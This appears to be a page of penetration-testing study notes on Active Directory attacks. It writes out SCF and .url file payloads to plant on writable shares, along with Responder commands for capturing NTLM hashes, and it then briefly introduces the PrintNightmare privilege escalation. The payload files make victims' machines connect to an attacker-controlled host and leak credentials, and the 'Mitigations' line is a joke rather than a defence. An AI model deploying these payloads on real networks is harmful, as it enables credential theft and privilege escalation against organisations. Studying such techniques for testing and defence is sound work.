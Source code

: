 
<div style="page-break-after: always;"></div>
<br>

## URL-File-Attacks

---

After **Compromising** a user, suppose the user has **SHARE ACCESS** we can **utilize** that **access** to **crack more hashes** via a **Responder** (Potential Privesc)   

<br>

SCF Attack - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share

<br>

### SCF and URL file attack against writeable share

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

	[Shell]
	Command=2
	IconFile=\\{IP}\Share\test.ico
	[Taskbar]
	Command=ToggleDesktop


This attack also works with `.url` files and `responder -I eth0 -v`.
say `@test.url`

	[InternetShortcut]
	URL=whatever
	WorkingDirectory=whatever
	IconFile=\\{IP}\%USERNAME%.icon
	IconIndex=1

### Mitigations

- UH, Just don't fall for it!

<div style="page-break-after: always;"></div>
<br>




## Print-Nightmare

---

Takes advantage of the **Printer Spooler**, which has some functionality which **allows the users** to add **Printers**, which runs as a **SYSTEM PRIVILEGE!**. 

Because of which any sort of **Autheticated Attacker** can run **CODE EXECUTIONS** as **PRIVILEGED USER!** XD

